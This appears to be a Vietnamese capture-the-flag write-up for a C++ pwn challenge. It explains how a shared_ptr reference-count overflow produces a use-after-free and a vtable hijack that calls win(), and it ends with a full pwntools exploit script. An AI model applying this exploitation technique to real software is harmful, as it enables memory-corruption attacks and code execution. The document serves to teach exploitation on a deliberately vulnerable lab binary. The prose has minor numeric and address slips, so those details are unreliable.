



# PWN2

### Checksec

```bash
[*] '/home/huhu/CTF-writeups/ctf/greycatFinal/pwn2/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

### Source code

```c++
#include <iostream>
#include <memory>
#include <vector>
#include <string>
#include <cstdint>
#include <cstdlib>
#include <fstream>

template<class T, size_t N>
class RingBuffer {
    alignas(T) unsigned char storage[N][sizeof(T)];
    size_t head = 0;

public:
    template<class... Args>
    void emplace(Args&&... args) {
        void* slot = storage[head];
        ::new (slot) T(std::forward<Args>(args)...);
        head = (head + 1) % N;
    }
};

struct Item {
    std::string name;
    int level;

    Item(const std::string& name) : name(name), level(42) {
    }

    virtual ~Item() = default;

    virtual void inspect() {
        std::cout << "Item(" << name << ", level=" << level << ")\n";
    }
};

struct Sword : Item {
    Sword() : Item("Sword") {
    }
};

struct Potion : Item {
    Potion() : Item("Potion") {
        level = 3;
    }
};

struct Rock : Item {
    Rock() : Item("Rock") {
        level = 1;
    }
};

using item_t = std::shared_ptr<Item>;

struct ItemReceivedNotification {
    item_t item;
    std::string message;
};

struct Player {
    std::vector<item_t> inventory;
};

static constexpr size_t NOTIFICATION_CAP = 1 << 20;
RingBuffer<ItemReceivedNotification, NOTIFICATION_CAP> notifications;

std::vector<item_t> items;
Player player;

void win() {
    system("/bin/cat flag.txt");
    exit(0);
}

void setup_items() {
    items.emplace_back(std::make_shared<Sword>());
    items.emplace_back(std::make_shared<Potion>());
    items.emplace_back(std::make_shared<Rock>());

    player.inventory.reserve(1);
}

static int oracle(int round) {
    return (round * round + round + 1) % 3;
}

void battle() {
    uint32_t reward_count = 0;
    uint32_t round = 0;

    std::cout << "A mirror knight challenges you.\n";
    std::cout << "Choose each round: 0=block 1=dodge 2=parry\n";

    while (true) {
        std::cout << "Round " << round << "> ";

        uint32_t option;
        std::cin >> option;

        if (option != oracle(round)) {
            std::cout << "You lose!\n";
            reward_count = 0;
            break;
        }

        std::cout << "You win this exchange! Double up? ";
        std::string choice;
        std::cin >> choice;

        reward_count = reward_count == 0 ? 1 : reward_count * 2;
        round++;

        if (choice == "no")
            break;
    }

    auto reward = items[1];  // potion
    for (uint32_t i = 0; i < reward_count; i++) {
        notifications.emplace(ItemReceivedNotification{
            .item = reward,
            .message = "Battle reward"
            });
    }

    std::cout << "Rewards queued: " << reward_count << "\n";
}

void blacksmith() {
    std::cout << "Blacksmith commands:\n";
    std::cout << "  buy <id>\n";
    std::cout << "  rename <idx> <name>\n";
    std::cout << "  inspect <idx>\n";
    std::cout << "  back\n";

    while (true) {
        std::cout << "blacksmith> ";

        std::string command;
        std::cin >> command;

        if (command == "back") {
            break;
        }
        else if (command == "buy") {
            size_t id;
            std::cin >> id;

            if (id >= items.size()) {
                std::cout << "No such item.\n";
                continue;
            }

            player.inventory.emplace_back(items[id]);
            std::cout << "Bought " << items[id]->name << ".\n";
        }
        else if (command == "rename") {
            size_t idx;
            std::string name;
            std::cin >> idx >> name;

            if (idx >= player.inventory.size() || !player.inventory[idx]) {
                std::cout << "No such inventory slot.\n";
                continue;
            }

            player.inventory[idx]->name = name;
            std::cout << "Renamed.\n";
        }
        else if (command == "inspect") {
            size_t idx;
            std::cin >> idx;

            if (idx >= player.inventory.size() || !player.inventory[idx]) {
                std::cout << "No such inventory slot.\n";
                continue;
            }

            player.inventory[idx]->inspect();
        }
        else {
            std::cout << "Unknown blacksmith command.\n";
        }
    }
}

int main() {
    setup_items();

    std::cout << "Commands: battle, blacksmith, quit\n";

    while (true) {
        std::cout << "> ";

        std::string command;
        std::cin >> command;

        if (!std::cin)
            break;

        if (command == "battle") {
            battle();
        }
        else if (command == "blacksmith") {
            blacksmith();
        }
        else if (command == "quit") {
            break;
        }
        else {
            std::cout << "Unknown command.\n";
        }
    }
}
```

Có thể thấy, chương trình có bug ở đây: </br>

```c++
template<class T, size_t N>
class RingBuffer {
    alignas(T) unsigned char storage[N][sizeof(T)];
    size_t head = 0;

public:
    template<class... Args>
    // tạo hàm emplace để cấp buffer ở trên đầu của ringbuffer
    void emplace(Args&&... args) {
        void* slot = storage[head];
        //ptr trỏ tới vùng nhớ đầu ringbuffer
        ::new (slot) T(std::forward<Args>(args)...);
        // tạo buffer ở chỗ ptr slot trỏ tới
        head = (head + 1) % N;
        // tăng head
    }
};
```
Có thể thấy là emplace không hủy object đúng cách mà chỉ tạo buffer ở nơi ptr trỏ tới. </br>

```c++
    auto reward = items[1];  // potion
    for (uint32_t i = 0; i < reward_count; i++) {
        notifications.emplace(ItemReceivedNotification{
            .item = reward, //strong_count + 1
            .message = "Battle reward"});
    } //reward bị hủy
```

Ta thấy mỗi lần battle thắng, ta có thể tăng thêm số lượng shared_ptr trỏ tới potion với 1 số lần tăng vô hạn. </br> 
Vì vậy nếu ta tăng số strong_count của shared ptr này lên 0xFFFFFFFF và lên thêm 1 lần nữa, nó sẽ quay trở về lại 0, 0xFFFFFFFF tương đương với 4294967295. <br>
Vì vậy cần thắng 32 trận để có số notification là 2 mũ 31 tương đương 4294967295 để nó chuyển về 0. </br>
Và khi nó chuyển về 0, potion sẽ bị free và từ đó ta sẽ bug use-after-free khi item[1] vẫn đang chứa ptr trỏ tới object potion.</br>

Vì Potion đã bị free, ta sử dụng buy 2 để thêm Rock vào inventory, sau đó rename 0 với payload đủ dài để std::string cấp phát lại chunk 0x50 của Potion. Payload sẽ ghi đè vptr tại 0x104500a0 thành 0xc0e2c0 và name.data tại 0x104500a8 thành 0xc0e2d0.

trước `buy 2`



sau `buy 2`



ghi đè:



0x104500a8: 0xc0e2c0 là fake vptr của Potion </br>
0x104500a8:	0xc0e2d0 là địa chỉ của name </br> 
0x104500b0:	Fake string length </br>
0x104500b8:	Fake string capacity </br>

Và sau khi buy 1, ta dùng rename 1 để ghi địa chỉ WIN vào 0xc0e2d0, tức vị trí fake_vtable + 0x10. Cuối cùng, khi gọi inspect 1, chương trình lấy địa chỉ hàm từ fake vtable thay vì vtable gốc của Potion, từ đó chuyển luồng thực thi tới hàm win(). </br>

### Exploit script:
```python
from pwn import *

elf = ELF("./chall_patched")
context.arch = "amd64"
context.log_level = "info"

gs = '''
c
'''

WIN = 0x402476
NOTIF = 0x40e2c0
AVT = NOTIF + 0x800000

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

p = start()

for k in range(32):
    p.sendlineafter(b"> ", b"battle")
    for i in range(k + 1):
        answer = (i * i + i + 1) % 3
        p.sendlineafter(
            f"Round {i}> ".encode(),
            str(answer).encode()
        )

        if i == k:
            p.sendlineafter(b"? ", b"no")
        else:
            p.sendlineafter(b"? ", b"yes")
    p.recvuntil(b"Rewards queued: ")
    p.recvline()
    log.info(f"Battle {k + 1}/32")
p.sendlineafter(b"> ", b"battle")
p.sendlineafter(b"Round 0> ", b"0")
p.recvuntil(b"Rewards queued: ")
p.recvline()
p.sendlineafter(b"> ", b"blacksmith")
p.sendlineafter(b"blacksmith> ", b"buy 2")
payload = (
    b"A" * 0x10
    + p64(AVT)
    + p64(AVT + 0x10)
    + p64(8)
    + p64(0x1000)
    + b"A" * 0x10
)
p.sendlineafter(b"blacksmith> ", b"rename 0 " + payload)
p.sendlineafter(b"blacksmith> ", b"buy 1")
p.sendline(b"rename 1 " + p64(WIN))
p.sendline(b"inspect 1")
p.interactive()
```
